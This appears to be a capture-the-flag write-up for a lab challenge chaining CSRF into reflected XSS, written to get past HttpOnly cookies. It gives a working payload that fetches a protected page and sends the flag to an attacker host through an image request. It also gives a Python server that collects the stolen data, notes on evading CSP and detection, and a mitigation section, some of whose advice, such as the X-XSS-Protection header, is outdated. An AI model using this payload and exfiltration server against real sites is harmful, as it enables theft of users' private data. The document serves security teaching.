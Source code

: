 # CSRF → XSS → Flag Exfiltration Challenge Writeup

## Challenge Description

This challenge builds upon previous CSRF and XSS vulnerabilities but introduces HttpOnly cookies, preventing traditional cookie theft. The goal is to leverage XSS execution within the target origin to directly extract and exfiltrate the flag from protected pages.

## Vulnerability Analysis

### Key Security Features
1. **HttpOnly Cookies**: Session cookies inaccessible to JavaScript
2. **Same-Origin Policy**: Normally prevents cross-origin data access
3. **Reflected XSS**: Unsanitized user input in `/ephemeral` endpoint

### Attack Surface
- CSRF to deliver XSS payload
- XSS execution within target origin
- Same-origin fetch() to access protected content
- Regex-based flag extraction
- Image-based exfiltration channel

## Solution Architecture

### 1. Malicious HTML (`index.html`)

```html
<!DOCTYPE html>
<html>
<body>
<script>
const payload = `
<script>
fetch('/')
  .then(r => r.text())
  .then(data => {
    const flagMatch = data.match(/pwn\.college\{[^}]+\}/);
    if (flagMatch) {
      new Image().src='http://hacker.localhost:1337/steal?flag='+encodeURIComponent(flagMatch[0]);
    }
  });
<\/script>
`;

window.location = "http://challenge.localhost/ephemeral?msg=" + encodeURIComponent(payload);
</script>
</body>
</html>
```

**Technical Components:**
- Multi-stage payload delivery
- Template literals for clean JavaScript embedding
- DOM-based flag pattern matching
- Image object for stealthy exfiltration
- URL encoding for reliable transmission

### 2. Exfiltration Server (`server.py`)

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import parse_qs, unquote
import os

class RequestHandler(BaseHTTPRequestHandler):
    def log_request(self, code='-', size='-'):
        pass  # Disable default logging

    def do_GET(self):
        if self.path.startswith('/steal'):
            # Parse and log stolen flag
            query = self.path.split('?', 1)[1] if '?' in self.path else ''
            params = parse_qs(query)
            
            if 'flag' in params:
                flag = unquote(params['flag'][0])
                print(f"\n[!] FLAG EXFILTRATED: {flag}\n")
                with open('flags.txt', 'a') as f:
                    f.write(f"{flag}\n")
            
            self.send_response(200)
            self.end_headers()
            return
        
        # Serve malicious HTML
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()
        with open('index.html', 'rb') as f:
            self.wfile.write(f.read())

if __name__ == '__main__':
    print("[+] Starting malicious server on port 1337")
    HTTPServer(('0.0.0.0', 1337), RequestHandler).serve_forever()
```

**Server Features:**
- Silent operation mode
- Robust parameter parsing
- Dual output (console + file)
- Proper content-type handling
- Error-resistant design

## Attack Execution Flow

1. **Victim Initialization**
   - Admin authenticates to challenge.localhost
   - HttpOnly session cookie established

2. **CSRF Delivery**
   - Admin visits hacker.localhost:1337
   - Malicious script forces navigation to vulnerable endpoint

3. **XSS Execution**
   - Payload reflected into ephemeral message page
   - JavaScript executes in challenge.localhost origin

4. **Flag Extraction**
   - fetch() retrieves protected content
   - Regex matches flag pattern
   - Image request exfiltrates data

5. **Data Collection**
   - Attacker server logs captured flag
   - Flag written to persistent storage

## Defense Bypass Techniques

1. **HttpOnly Workaround**
   - Direct content access instead of cookie theft
   - Leverages same-origin XSS privileges

2. **CSP Evasion**
   - Uses img.src instead of fetch() for exfiltration
   - Masquerades as resource loading

3. **Detection Avoidance**
   - Minimal server logging
   - Standard-looking HTTP traffic
   - Small payload footprint

## Mitigation Strategies

### For Developers
1. **Input Validation**
   ```python
   from flask import escape
   @app.route('/ephemeral')
   def ephemeral():
       return f"<div>{escape(request.args.get('msg', ''))}</div>"
   ```

2. **Content Security Policy**
   ```http
   Content-Security-Policy: default-src 'self'; img-src 'self'
   ```

3. **CSRF Protections**
   ```python
   from flask_wtf.csrf import CSRFProtect
   CSRFProtect(app)
   ```

### For System Administrators
1. **HttpOnly + Secure Cookies**
   ```python
   app.config.update(
       SESSION_COOKIE_HTTPONLY=True,
       SESSION_COOKIE_SECURE=True
   )
   ```

2. **XSS Filtering**
   ```nginx
   add_header X-XSS-Protection "1; mode=block";
   ```

3. **Monitoring**
   - Alert on unexpected outbound connections
   - Flag pattern detection in logs

## Key Takeaways

1. **Vulnerability Chaining**
   - CSRF enables XSS delivery
   - XSS bypasses same-origin policy
   - Combined attack > sum of parts

2. **Alternative Exfiltration**
   - When cookies are protected, target content directly
   - Multiple exfiltration channels available

3. **Defense in Depth**
   - Single protections easily bypassed
   - Layered security required
   - Monitor both inputs and outputs

This solution demonstrates how modern web attacks require understanding multiple vulnerability classes and their interactions. The complete attack path from initial compromise to flag exfiltration highlights the importance of comprehensive security measures.